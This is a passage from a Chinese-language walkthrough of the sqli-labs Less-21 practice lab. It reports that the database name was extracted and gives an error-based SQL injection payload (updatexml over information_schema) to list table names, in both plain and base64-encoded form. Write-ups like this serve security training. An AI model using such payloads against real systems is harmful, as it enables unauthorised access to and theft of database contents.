 


成功爆破出库名<code>security</code>

![Less-21_7](./img/Less-21_7.PNG)



+ 爆数据表名

~~~ shell
') and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1)#
~~~

<code>base64</code>编码后

~~~ shell
JykgYW5kIHVwZGF0ZXhtbCgxLGNvbmNhdCgweDdlLChzZWxlY3QgZ3JvdXBfY29uY2F0KHRhYmxlX25hbWUpIGZyb20gaW5mb3JtYXRpb25fc2NoZW1hLnRhYmxlcyB3aGVyZSB0YWJsZV9zY2hlbWE9ZGF0YWJhc2UoKSksMHg3ZSksMSkj
~~~
